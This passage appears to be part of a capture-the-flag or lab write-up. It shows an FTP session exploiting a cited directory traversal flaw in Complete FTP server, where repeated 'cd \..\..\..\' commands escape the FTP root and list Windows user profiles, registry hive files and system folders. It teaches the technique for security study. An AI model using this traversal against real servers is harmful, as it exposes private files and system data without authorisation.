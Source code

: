 The server banner returns “Complete FTP server”.  A quick search on exploit-db shows that this FTP server (if we can believe the banner of course) may suffer from a directory traversal vulnerability : [http://www.exploit-db.com/exploits/11973](http://www.exploit-db.com/exploits/11973).

So let’s see if we can break out of the root using the directory traversal vulnerability on this ftp server :

```
ftp> cd \..\..\..\
250 Directory changed to "/MyDocuments/......".
ftp> ls
200 PORT command successful.
150 Opening ASCII mode data connection for listing
dr-xrwx--- 1 admin users              0 May 04 00:10 AppData
dr-xrwx--- 1 admin users              0 May 04 00:10 Application Data
dr-xrwx--- 1 admin users              0 May 04 00:10 Cookies
dr-xrwx--- 1 admin users              0 Jul 13 2009 Desktop
dr-xrwx--- 1 admin users              0 May 04 00:10 Documents
dr-xrwx--- 1 admin users              0 Jul 13 2009 Downloads
dr-xrwx--- 1 admin users              0 Jul 13 2009 Favorites
dr-xrwx--- 1 admin users              0 Jul 13 2009 Links
dr-xrwx--- 1 admin users              0 May 04 00:10 Local Settings
dr-xrwx--- 1 admin users              0 Jul 13 2009 Music
dr-xrwx--- 1 admin users              0 May 04 00:10 My Documents
dr-xrwx--- 1 admin users              0 May 04 00:10 NetHood
dr-xrwx--- 1 admin users              0 Jul 13 2009 Pictures
dr-xrwx--- 1 admin users              0 May 04 00:10 PrintHood
dr-xrwx--- 1 admin users              0 May 04 00:10 Recent
dr-xrwx--- 1 admin users              0 Jul 13 2009 Saved Games
dr-xrwx--- 1 admin users              0 May 04 00:10 SendTo
dr-xrwx--- 1 admin users              0 May 04 00:10 Start Menu
dr-xrwx--- 1 admin users              0 May 04 00:10 Templates
dr-xrwx--- 1 admin users              0 Jul 13 2009 Videos
-r--rr---- 1 admin users         262144 May 04 00:10 NTUSER.DAT
-r--rr---- 1 admin users         226304 May 04 00:10 ntuser.dat.LOG1
-r--rr---- 1 admin users              0 May 04 00:10 ntuser.dat.LOG2
-r--rr---- 1 admin users          65536 May 04 00:10 NTUSER.DAT{6cced2f1-...
-r--rr---- 1 admin users         524288 May 04 00:10 NTUSER.DAT{6cced2f1-...
-r--rr---- 1 admin users         524288 May 04 00:10 NTUSER.DAT{6cced2f1-...
-r--rr---- 1 admin users             20 May 04 00:10 ntuser.ini
226 Transfer complete.
ftp> cd \..\..\..\
250 Directory changed to "/MyDocuments/....../......".
ftp> ls
200 PORT command successful.
150 Opening ASCII mode data connection for listing
dr-xrwx--- 1 admin users              0 May 03 23:05 Administrator
dr-xrwx--- 1 admin users              0 Jul 13 2009 All Users
dr-xrwx--- 1 admin users              0 Aug 31 2009 Default
dr-xrwx--- 1 admin users              0 Jul 13 2009 Default User
dr-xrwx--- 1 admin users              0 May 04 00:06 devil
dr-xrwx--- 1 admin users              0 May 04 00:08 ftp
dr-xrwx--- 1 admin users              0 Jul 13 2009 Public
dr-xrwx--- 1 admin users              0 May 04 00:10 TEMP
-r--rr---- 1 admin users            174 Jul 13 2009 desktop.ini
226 Transfer complete.
ftp> cd \..\..\..\
250 Directory changed to "/MyDocuments/....../....../......".
ftp> ls
200 PORT command successful.
150 Opening ASCII mode data connection for listing
dr-xrwx--- 1 admin users              0 May 03 22:58 $Recycle.Bin
dr-xrwx--- 1 admin users              0 Jul 13 2009 Documents and Settings
dr-xrwx--- 1 admin users              0 Jul 13 2009 PerfLogs
dr-xrwx--- 1 admin users              0 May 03 19:20 Program Files
```